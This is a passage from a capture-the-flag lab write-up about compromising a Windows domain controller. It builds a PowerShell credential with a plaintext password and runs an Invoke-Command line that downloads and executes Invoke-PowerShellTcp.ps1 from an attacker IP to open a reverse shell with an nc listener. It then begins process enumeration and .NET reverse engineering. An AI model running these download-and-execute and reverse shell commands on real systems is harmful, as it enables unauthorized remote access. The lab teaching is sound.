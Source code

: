 ```powershell
$SecPassword = ConvertTo-SecureString 'ScrambledEggs9900' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('Scrm\MiscSvc', $SecPassword)
```

Last, we will execute the following command in order to download and execute the `Invoke-PowerShellTcp.ps1` script as the `miscsvc` user with the `PSCredentials` that we have just created. We will be listening in the 9000 port in our machine with `rlwrap nc -nlvp 9000` too:

```powershell
Invoke-Command -Computer dc1 -Credential $Cred -ScriptBlock {IEX(New-Object Net.WebClient).downloadString("http://10.10.14.11:8000/Invoke-PowerShellTcp.ps1")}
```

![Desktop View](rev2.png){: w="700" h="400" }
_MiscSvc Reverse Shell_

We can see that we have a shell as the `miscsvc` user. Now we can proceed to visualize the `user.txt` flag in the `C:\Windows\Users\miscsvc\Desktop\`{: .filepath} directory.

## Administrator Shell
---

Now that we have a shell as the `miscsvc` user, we will proceed to enumerate the target machine in order to gain `Administrator` access.

### Enumeration

It is always important to check the processes that are running on the target machine as they are a very common attack vector in order to gain privileged access. To do this, we will use the following command:

```powershell
Get-Process
```

![Desktop View](privesc1.png){: w="700" h="400" }
_Get-Process_

We can see a process named `ScrambleServer` that will attract our attention. If we remember the enumeration phase, there was a client program that was connecting to the `DC` on port 4411. We can guess that the server behind that client program is this process.

### .Net Reverse Engineering

We know that there is a process called `ScrambleServer`, but where is the client for this server that we have seen on the web server? We will enumerate the machine further and we will find the following files:

![Desktop View](apps.png){: w="700" h="400" }
_EXE and DLL_

If we download the files to our machine and inspect them:

![Desktop View](apps2.png){: w="700" h="400" }
_File type_
